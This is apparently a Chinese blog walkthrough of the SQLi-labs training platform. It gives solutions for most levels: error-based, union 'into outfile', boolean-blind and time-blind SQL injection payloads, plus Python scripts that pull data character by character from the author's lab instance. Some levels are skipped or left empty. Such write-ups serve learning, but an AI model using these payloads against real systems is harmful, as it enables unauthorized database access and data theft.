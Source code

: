 ```yaml
---
id: 4461
title: 漏洞测试平台——SQLi-labs
date: 2017-05-31T07:18:04+00:00
author: admin
layout: post
guid: http://blog.ikow.cn/?p=4461
permalink: '/%e6%bc%8f%e6%b4%9e%e6%b5%8b%e8%af%95%e5%b9%b3%e5%8f%b0-sqli-labs/'
categories:
  - security
tags:
  - sqli
  - sqli-labs
  - sql注入
---
```

SQLi-labs是个专门用来学习SQL注入的开源漏洞测试平台，基于php+mysql开发，所以里面涉及的SQL注入都是mysql语法。

下载的地址是https://github.com/Audi-1/sqli-labs

下载安装按照readme里面要求即可，这里不多废话。下面是每个题目的具体分析：

1、error based string sqli

首先是源码：

<pre class="brush: plain; title: ; notranslate" title="">$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
	if($row)
	{
  	echo "&lt;font size='5' color= '#99FF00'&gt;";
  	echo 'Your Login name:'. $row['username'];
  	echo "
";
  	echo 'Your Password:' .$row['password'];
  	echo "&lt;/font&gt;";
  	}
	else 
	{
	echo '&lt;font color= "#FFFF00"&gt;';
	print_r(mysql_error());
	echo "&lt;/font&gt;";  
	}
</pre>

我们可以看到当mysql语句正确执行的时候，应用会打印结果，但是没有正确执行的时候会打印错误，所以这里我们并不能像有回显位注入那样直接注入mysql语句。我们需要利用报错信息进行注入。

原理其实比较简单，一般都是利用某函数X    比如X(exp)  mysql函数在执行的时候会先执行函数里面的exp，获取返回值，然后再把exp的返回值作为参数给X进行执行，当exp的返回值不符合X的传参要求时，会导致query错误，打印出错误。

直接贴上一个老毛子整理的error based的cheat sheet：https://blackfan.ru/mysql_game/

构造exp：‘|polygon((select*from(select name_const(version(),1))x))%23

2、error based integer sqli

原理同一，只不过是注入点的变量是integer

exp：|polygon((select*from(select name_const(version(),1))x))%23

3、注入点变量外有单引号和括号，在exp中添加对应的符号即可：

exp：&#8217;)|polygon((select*from(select name_const(version(),1))x))%23

4 、双引号加括号的error based 注入，变下exp即可：

exp: &#8220;)|polygon((select*from(select name_const(version(),1))x))%23

5、string 单引号注入同第一题

exp: &#8216; |polygon((select*from(select name_const(version(),1))x))%23

6、string 双引号注入

exp: &#8220;|polygon((select*from(select name_const(version(),1))x))%23

7、我们先看下源码：

> <span class="pl-c1">error_reporting</span>(<span class="pl-c1"></span>);

这句话表示不再显示具体错误，只会显示“<span style="color: #808080; font-size: medium;">You have an error in your SQL syntax“</span>，所以这里我们不能用前几题的error based注入，根据标题的提示“dump into outfile&#8221;, 由于我权限设置的原因，apache用户无法写入文件，这里直接给出exp了：

1&#8242;)) union select 1,2,3 into outfile &#8220;/tmp/test.txt&#8221;  –-+

8、布尔型的盲注，这里我们通过and 1=1、and 1=2进行判断：

?id=1&#8217;+and+1=1&#8211;+ 和id=1相同回显

?id=1&#8217;+and+1=2&#8211;+ 和id=1不同回显

证明这里的and后面的语句被执行了，这里我们需要利用一些函数结合脚本来获取数据库信息：

<pre class="brush: plain; title: ; notranslate" title="">import requests
payload = '0123456789.abcdefghijklmnopqrstuvwxyz'

for posi in range(20):
    for asc in payload:
        url = "http://tools.ikow.cn/sqli-labs/Less-8/?id=1\'+AND ASCII(SUBSTRING(version(),%d,1))=%d--+" \
              % (posi, ord(asc))
        result = requests.get(url)
        #print url
        if "You are in" in result.content:
            print asc,
</pre>

9、我们看下第九题的源码（https://github.com/Audi-1/sqli-labs/blob/master/Less-9/index.php）发现sql查询不管是正确还是错误都会返回相同的信息，这个时候我们不能通过第八题中基于回显进行注入了，这里我们要利用mysql中的一些延时函数进行注入。这题是考察基于时间的盲注

mysql中主要有sleep和benchmark两个函数，sql server中有wait for time和wait for delay两个。时间盲注大体上和布尔型盲注相同，这里我们判断语句是否执行是通过mysql数据库延时返回造成我们的http响应延时。

这里直接上写好的脚本，逻辑很简单：

<pre class="brush: plain; title: ; notranslate" title="">import requests
import time
payload = '0123456789.abcdefghijklmnopqrstuvwxyz'

for posi in range(20):
    for asc in payload:
        FirstRun = int(time.time())
        url = "http://tools.ikow.cn/sqli-labs/Less-9/?id=1\'" \
              "+AND+IF(ASCII(SUBSTRING(version(),%d,1))=%d,SLEEP(5),0)--+" \
              % (posi, ord(asc))
        result = requests.get(url)
        SecondRun = int(time.time())
        #print url
        #print SecondRun,FirstRun
        if SecondRun - FirstRun &gt; 1:
            print asc,
</pre>

&nbsp;

11、同样是基于时间的盲注，不过是10中的单引号换成了双引号，简单该下脚本即可

12、基于报错的post双引号加括号注入

exp：uname=admin&passwd=&#8221;)/updatexml(0,repeat(version(),2),0)#

13、基于报错的post单引号加括号注入

exp: uname=admin&passwd=&#8217;)/updatexml(0,repeat(version(),2),0)#

14、基于报错的post双引号注入

exp: uname=admin&passwd=&#8221;/updatexml(0,repeat(version(),2),0)#

15、post 布尔型盲注

exp script：

<pre class="brush: plain; title: ; notranslate" title="">import requests
payload = '0123456789.abcdefghijklmnopqrstuvwxyz'

for posi in range(20):
    for asc in payload:
        url = "http://tools.ikow.cn/sqli-labs/Less-15/"
        payload = "admin\' AND ASCII(SUBSTRING(version(),%d,1))=%d#" \
              % (posi, ord(asc))
        data = {'uname':'admin', 'passwd': payload}
        result = requests.post(url,data=data)
        #print data
        if "flag.jpg" in result.content:
            print asc,
</pre>

16、post 时间盲注

&nbsp;

&nbsp;